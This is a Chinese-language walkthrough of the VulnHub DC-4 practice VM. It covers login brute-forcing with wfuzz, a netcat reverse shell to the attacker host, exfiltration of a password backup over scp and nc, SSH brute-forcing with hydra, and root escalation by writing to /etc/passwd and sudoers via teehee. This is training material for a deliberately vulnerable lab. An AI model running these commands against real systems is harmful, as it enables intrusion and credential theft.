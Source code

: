 # DC4-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-4,313/

**Description**

DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-4 is a VirtualBox VM built on Debian 32 bit, so there should be no issues running it on most PCs.

If there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox and away you go.

**知识点**
- web 登录爆破 (前期)
- web 命令执行 (中期)
- 反弹 shell (中期)
- SSH 爆破 (后期)
- linux 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.137` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.137
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/2.png)

一个 web ,一个 ssh,先看看 web 有什么信息

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/3.png)

单纯一个登录页面,没有任何其他逻辑功能,比如密码找回、注册

那么接下来有几种手段，直接爆破账号密码，SQL注入，和爆破目录敏感文件等,这里都可以使用 wfuzz 进行完成

直接爆破弱口令试试，注意，这里名称叫做"Admin Information Systems Login" 那么账号名很可能就是 "admin" 或 "systems",密码字典可以直接使用 kali 自带的 `/usr/share/wordlists/rockyou.txt`

```bash
head -10000 /usr/share/wordlists/rockyou.txt > test.txt
wfuzz -v -w test.txt -d "username=admin&password=FUZZ" --hh 206 -u http://192.168.141.137/login.php
```

解释一下，第一句是把 rockyou.txt 前 10000 行单独创建为一个文件 test.txt，源文件太大了足足1000多W行，wfuzz直接无法识别字典。

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/4.png)

可见,跑出了 payload 也就是密码 `happy`

---

# 中期-漏洞利用

直接登录发现存在运行执行代码的功能点

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/5.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/6.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/7.png)

这里可以在 burp 中拦截请求,将 payload 改为我们需要的命令

这里 kali 做好监听
```bash
nc -lvp 4444
```

修改包执行回弹命令
```bash
nc -nv 192.168.141.134 4444 -e /bin/bash
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/8.png)

此时 kali 以收到弹回的 shell，给他改成方便交互的

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/9.png)

---

# 后期-提权

接下来要想办法提权,查看能够登录的帐号
```bash
cat /etc/passwd | grep "/bin/bash"
```
```
root:x:0:0:root:/root:/bin/bash
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
```

查看目录
```bash
ls /home/jim
ls /home/sam
ls /home/charles
ls /tmp
```
在 `/home/jim/` 下发现了 `mbox` 文件,但是没权限读,那么想办法登录 jim

在 `/home/jim/backups` 下发现了 `old-passwords.bak` 文件,用 `scp` 命令从靶机传到 kali 上去
```bash
scp /home/jim/backups/old-passwords.bak root@192.168.141.134:/
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/10.png)

当然用 nc 也可以直接传
```bash
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

看了下 old-passwords.bak 内容,是个密码表,那么直接用它爆破 SSH
```bash
hydra -l jim -P /old-passwords.bak 192.168.141.137 ssh
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/11.png)

登录,并查看 mbox 内容

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/12.png)

看上去像是一份邮件,去 `/var/mail` 看看是否有信息

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/13.png)

发现一份 charles 给 jim 的信,他要去度假，老板让他把密码给 jim,ok 收获 charles 密码 `^xHhA&hvim0y`

登录 charles 用户并尝试提权
```bash
su charles
sudo -l
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/14.png)

Charles 可以使用 sudo 权限运行 teehee。teehee 可以干嘛？可以将标准输入复制到我们选择的文件中。那么我可以直接写一个 root 权限的用户到 /etc/passwd 下，也可以直接在 sudoers 里给 charles 所有权限

1. 直接写个 root 权限用户
    ```bash
    echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
    su test
    whoami
    ```

    ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/15.png)

2. 在 sudoers 里给 charles 所有权限
    ```bash
    echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
    sudo -l
    sudo su
    ```

    ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC4/16.png)

提权成功,感谢靶机作者 @DCUA7
